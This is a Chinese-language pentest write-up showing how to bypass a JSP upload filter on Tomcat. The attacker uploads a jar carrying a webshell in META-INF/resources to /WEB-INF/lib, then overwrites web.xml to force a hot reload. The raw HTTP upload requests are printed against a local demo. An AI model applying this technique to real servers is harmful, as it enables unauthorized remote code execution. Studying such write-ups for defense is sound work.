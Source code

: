 

# 奇安信攻防社区-记一次过滤jsp的文件上传

### 记一次过滤jsp的文件上传

在某次对某单位进行渗透测试时，遇到一个上传点，网站是java写的，但是上传jsp和jspx时会被waf拦截，但由于上传路径可控，经过不懈努力最终成果拿到shell，于是写这篇文章记录一下

在某次对某单位进行渗透测试时，遇到一个上传点，网站是java写的，但是上传jsp和jspx时会被waf拦截，但由于上传路径可控，经过不懈努力最终成果拿到shell，于是写这篇文章记录一下

# 0x01 环境介绍

由于原来网站已经关闭了，所以我这几简单写了一个demo，实现了指定路径上传文件，但是过滤了jsp后缀名

![image-20231013151725099](assets/1698990430-20e8a3b1a0df544affaa8d67d3f182be.jpg)

![image-20231013151756181](assets/1698990430-29ec824fdf8bc17b2dd5f49fd75fe74d.jpg)

当我们上传文件时，会自动上传到upload目录下

![image-20231013152338129](assets/1698990430-c0cf94d2df402f11d10efec924aa33d2.jpg)

![image-20231013152406844](assets/1698990430-0105c9d6db3989c2983e33744939301d.jpg)

如果后缀名为jsp或者jspx则会被拦截

![image-20231013152259434](assets/1698990430-00f5b1753931cece9916fcb0178758ef.jpg)

# 0x02 前置知识

在 Java web 应用程序中`/WEB-INF`目录通常是的一个特定目录，它用于存放与应用程序配置、安全性和资源管理相关的文件和目录，并且该目录下的资源文件无法直接通过浏览器访问

![image-20231016145725677](assets/1698990430-794533adfce7c0c3b0a470f259e1245b.jpg)

`/WEB-INF`下的一般有固定的名称和结构。

-   `/WEB-INF/web.xml` 配置文件，它包含有关应用程序的部署和配置信息。这包括 servlet 映射、过滤器配置、监听器配置、会话管理等。
-   `/WEB-INF/classes` 目录通常用于存放 Java 类文件，包括 servlet 类和其他应用程序特定的 Java 类。这些类文件在应用程序中可以被加载和调用。
-   `/WEB-INF/lib` 通常用于存放应用程序所需的外部 Java 库（JAR 文件）。这些库文件包含应用程序依赖的代码，例如框架、工具库和第三方库，应用程序的类加载器将从该JAR文件中加载相应的资源。

当使用某个类时，Web应用程序将尝试从/WEB-INF/classes加载该类，如果找不到，则尝试从/WEB-INF/lib下的JAR文件中搜索它。

在JAR文件的`/META-INF/resources`目录中可以用来放置JSP的静态资源，**在servlet3.0协议规范中，包含在jar文件 /META-INFO/resources/ 路径下的资源是可以直接访问的**。

例如在 Java web 应用程序的`/WEB-INF/lib`中添加一个jar包，在其`/META-INF/resources/`中有一个`index.html`

![image-20231016152434929](assets/1698990430-657148fbc432536308b7068f198772af.jpg)

启动tomcat，请求的URL包含`/demo/index.html` ，会使用这个JAR文件中的`/META-INF/resources/index.html`，因为实际上在/demo/目录下不存在index.html。

![image-20231016152534755](assets/1698990430-e9756c9f837a740d5df649508b50db52.jpg)

# 0x03 利用过程

既然可以上传至任意路径，那么我们可以把webshell放在`/META-INFO/resources/`路径下打包成jar包，然后上传jar包到`/WEB-INF/lib`中

首先使用idea新建一个项目，生成器选择`Jakarta EE`，模板选择`库`

![image-20231016172844622](assets/1698990430-cc265ef2303788da79550fec2167e5e9.jpg)

然后生成的模板中`demo2\src\main\resources`下新建目录`META-INF/resources`，然后在其下面放入webshell，这里我以打印一句话作为示例

![image-20231016173424559](assets/1698990430-21366c11a114c8001edd71aaf3576403.jpg)

然后运行`mvn package`构建项目并打包成jar包

![image-20231016174429357](assets/1698990430-0a6733bc717f5c26bbbd30ee91a6e9ff.jpg)

然后发包将生成的jar上传至`/WEB-INF/lib`

```php
POST /demo/upload?uploadDirectory=/WEB-INF/lib HTTP/1.1
Host: 127.0.0.1:8082
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary67oVSNngE4QsAxoK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Sec-Fetch-User: ?1
Cookie: JSESSIONID=3989AD45810239F4B46930C472A48DB7; 
Content-Length: 229

------WebKitFormBoundary67oVSNngE4QsAxoK
Content-Disposition: form-data; name="file"; filename="test.jar"
Content-Type: application/octet-stream

PK\x03\x04
......(省略)
\x00\x00\x08\x00\x00y\x8dPW\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00 \x00\x00\x00META-2\x00\x00V\x04\x00\x00\x00\x00
------WebKitFormBoundary67oVSNngE4QsAxoK--
```

（下图中上传文件使用的是yakit语法）

![image-20231016174505275](assets/1698990430-cc93a5928987438eb42627219556cb2e.jpg)

上传成功，但是现在直接访问`http://127.0.0.1:8082/demo/shell.jsp`会提示404

![image-20231016174703678](assets/1698990430-16f1491bb0e76abd12cf6329341d12f9.jpg)

这是因为在Tomcat中重新加载位于`lib`目录中的JAR文件通常需要重启Tomcat服务器，因为`lib`目录中的JAR文件是在Tomcat启动时加载的，而不是在运行时可以动态重新加载的。

然而有一种方法：

默认情况下，`autoDeploy` 设置为 `true`，代表tomcat默认开启热部署，**一旦web应用的web.xml文件的时间戳发生变化（创建时间，修改时间或访问时间发生变化），tomcat就会重新加载应用。**

那怎样使web.xml文件时间戳发生变化呢？ 可以通过上传一个同名同内容的文件覆盖它，即在/WEB-INF目录下上传相同内容的web.xml

```php
POST /demo/upload?uploadDirectory=/WEB-INF HTTP/1.1
Host: 127.0.0.1:8082
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary67oVSNngE4QsAxoK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Sec-Fetch-User: ?1
Cookie: JSESSIONID=3989AD45810239F4B46930C472A48DB7; 
Content-Length: 229

------WebKitFormBoundary67oVSNngE4QsAxoK
Content-Disposition: form-data; name="file"; filename="web.xml"
Content-Type: application/octet-stream

<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">        
</web-app>
------WebKitFormBoundary67oVSNngE4QsAxoK--
```

![image-20231018162707269](assets/1698990430-62efae460be09192fdcc7ef321fa91db.jpg)

当上传成功后可以观察到tomcat日志信息，成功重新加载应用

![image-20231018162750501](assets/1698990430-e029831547bb8b302f427c07b432a184.jpg)

再次访问`http://127.0.0.1:8082/demo/shell.jsp`也成功解析

![image-20231018162856743](assets/1698990430-f55e47ea0bd062e27540fd1eb7fd66b8.jpg)

此外，由于可以该改变web.xml中的内容，所以如果可以寻找到未授权的危险类也可以直接在web.xml中添加路由调用对应的类。
